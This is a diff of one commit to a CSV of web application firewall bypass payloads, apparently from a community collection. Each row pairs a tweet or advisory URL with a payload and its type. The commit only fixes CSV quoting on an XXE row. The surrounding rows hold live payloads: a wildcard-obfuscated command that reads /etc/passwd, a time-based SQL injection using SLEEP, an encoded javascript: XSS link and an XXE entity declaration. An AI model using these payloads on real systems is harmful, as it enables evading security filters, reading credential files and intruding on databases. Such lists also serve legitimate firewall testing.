

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -459,3 +459,3 @@ https://twitter.com/0SPwn/status/1651740036717576195,"""><a href=jav&#x0D;ascrip
 https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/p?s?w?,ptrav
-https://twitter.com/gdprAI/status/1653160069109026816,<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21; ... omitted ..,xxe
+https://twitter.com/gdprAI/status/1653160069109026816,"<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21; ... omitted ..",xxe
 https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU"},sqli
```
